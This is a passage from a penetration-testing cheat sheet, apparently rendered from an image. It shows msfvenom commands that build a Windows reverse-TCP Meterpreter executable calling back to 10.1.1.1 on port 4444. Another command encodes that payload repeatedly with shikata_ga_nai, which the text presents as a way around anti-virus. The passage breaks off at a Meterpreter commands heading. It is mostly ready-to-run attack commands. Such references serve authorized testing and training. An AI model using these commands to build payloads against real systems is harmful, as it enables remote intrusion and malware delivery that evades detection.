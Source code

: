```
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```

Example :

Reverse Meterpreter payload as an executable and redirected into a file:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe
```

Format Options (specified with –f) --help-formats – List available output formats

| Extension | Description   |
| --------- | ------------- |
| exe       | Executable    |
| pl        | Perl          |
| rb        | Ruby          |
| raw       | Raw Shellcode |
| C         | C Code              |

Encoding Payloads with msfvenom

The msfvenom tool can be used to apply a level of encoding for anti-virus bypass. Run with '-l encoders'

to get a list of encoders.
```
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```

Example

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=10.1.1.1 LPORT=4444 > mal.exe
```

## Metasploit Meterpreter

###### Base Commands: 
